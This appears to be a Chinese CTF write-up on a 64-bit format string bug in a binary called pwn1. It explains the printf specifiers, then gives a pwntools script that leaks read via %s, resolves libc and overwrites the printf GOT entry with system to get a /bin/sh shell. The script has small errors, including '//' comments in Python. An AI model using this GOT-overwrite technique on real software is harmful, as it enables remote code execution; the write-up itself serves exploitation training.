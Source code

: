 # 格式化字符串
## 漏洞点

``` printf的汇编代码
.text:00000000004006E1                 lea     rdi, aInteresting ; "Interesting "
.text:00000000004006E8                 mov     eax, 0
.text:00000000004006ED                 call    _printf
.text:00000000004006F2                 lea     rax, [rbp+buf]
.text:00000000004006F9                 mov     rdi, rax        ; format  //很明显的格式化字符串漏洞
.text:00000000004006FC                 mov     eax, 0
.text:0000000000400701                 call    _printf
.text:0000000000400706                 lea     
```
如果不清楚，可以看其源码

```
unsigned __int64 sub_40069D()
{
  char buf; // [rsp+0h] [rbp-410h]
  unsigned __int64 v2; // [rsp+408h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("What do you mean this time? ");
  read(0, &buf, 0x400uLL);
  printf("Interesting ", &buf);
  printf(&buf);  //格式化字符串漏洞
  puts(" food for thought");
  return __readfsqword(0x28u) ^ v2;
}
```
## 利用漏洞点
1. 先说一下printf的格式化字符串：</br>
<ul>
  <li> %c：输出字符，配上%n可用于向指定地址写数据。</li>
  <li>%d：输出十进制整数，配上%n可用于向指定地址写数据。</li>
  <li>%x：输出16进制数据，如%i$x表示要泄漏偏移i处4字节长的16进制数据，%i$lx表示要泄漏偏移i处8字节长的16进制数据，32bit和64bit环境下一样。</li>
  <li>%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是   64bit。</li>
  <li>%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。</li>
  <li>%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100x10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。</li>
  <li>%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。</li>
</ul>

printf的参数是可变的，可以是一个，两个，或者没有。printf会根据内存顺序读取参数，如果有格式化字符，就顺序分析。</br>

2. __利用思路__:
<p>首先确定格式化字符串在栈中的偏移，这里想要一直利用格式化字符串的漏洞，就得让其“循环”起来，可以一直调用printf函数。这里修改函数中用的最多的函数put为main函数地址，可以多次利用printf的漏洞，通过%s来泄漏在printf前运行过的函数，这里通过泄漏read的地址来泄漏libc，从而得到system地址。最后修改printf的got地址为system地址，在程序调用printf时，实际上是调用的system函数，最后，send‘/bin/sh\x00’作为system的参数。</p>

## 利用脚本
这道题目的偏移量为6。</br>

```
from pwn import *
from LibcSearcher import LibcSearcher
r = remote("vps1.blue-whale.me",19904)
elf = ELF('./pwn1')
#context.log_level='debug'

//修改puts_got地址为main的地址，达到多次利用漏洞的效果
main_addr = 0x40069D
puts_got = elf.got['puts']
r.recvuntil("What do you mean this time? ")
payload = "a%" + str(main_addr-1) + "c%8$lln" + p64(puts_got)  //这里为什么不用hhn?因为地址中有\x00，由于64位下用户可见的内存地址高位都带有\x00，容易截断我们构造的内容，所以把地址放在后边。其实作用一样，地址放哪都一样。这里的8是因为a%..c和%8$lln占了两个参数，分别为第六和第七个参数。相对于printf为第7和第8个参数。
#print payload
r.sendline(payload)

//泄漏read地址
read_got = elf.got['read']
r.recvuntil("What do you mean this time? ")
payload = "AAAA%7$s" + p64(read_got) //AAAA%7$s占一个参数，为第六个参数
r.sendline(payload)
r.recvuntil("Interesting ")
read_addr=u64(r.recvuntil("\x30",drop=True)[4:].ljust(8,'\x00'))
print hex(read_addr)

//泄漏libc,得到system地址
libc = LibcSearcher("read",read_addr)
libcbase = read_addr-libc.dump('read') 
system_addr = libcbase +libc.dump('system')
print hex(system_addr)

//修改printf_got为system地址，由打印出的地址可以看出，除了最后三个字节，其他字节都一样，system地址分三次单字节写入即可。
printf_got = elf.got['printf']
print hex(printf_got)
first = system_addr & 0xff  //低字节
second = (system_addr>>8) & 0xff //倒数第二个字节
third = (system_addr>>16) & 0xff //最后一个字节
payload = "%" + str(first) + "c%11$hhn"   //这里的11，是前边格式化字符串占了参数的位置，即顺序后延，格式化字符的第一个参数是在偏移11的位置，n是把输出字符的个数写入相应位置，把低字节\x..转为十进制的字符串，c表示字符个数，%123c表示123个字符串，在写入内存时，又以十六进制的形式写入，即把低字节\x..写入
payload += "%" + str(256-first+second) + "c%12$hhn"  //这里为什么用256减，因为要想把第二个字节写入，得需要减去第一个字节的个数，有可能第二个字节小于第一个字节，相减得到负数就会出错，这里向高位借1，即0x100=256,相当于取模。比如0x550423,第二个字节为0x04,而第一个字节为0x23,0x100+0x04-0x23=0xE1,实际写入的是0xE1+0x23=0x104,但是是单字节写入，会把高位给移出，还是写入的0x04。
payload += "%" + str(256-second+third) + "c%13$hhn"
payload += 'AAAA' //剩下的字节随便填充即可

if len(str(first))<3: //这里保证写入的地址为8的整数倍
    payload += 'A'
if len(str(256-first+second))<3:
    payload += 'A'
if len(str(256-first+third))<3:
    payload += 'A'
payload += p64(printf_got)
payload += p64(printf_got + 1)
payload += p64(printf_got + 2)

r.sendline(payload)

r.sendline("/bin/sh\x00") //printf("/bin/sh")-->system("/bin/sh")

r.interactive()

```

## 参考文章：
http://www.sohu.com/a/130725162_472906 </br>
https://www.cnblogs.com/ichunqiu/p/9329387.html
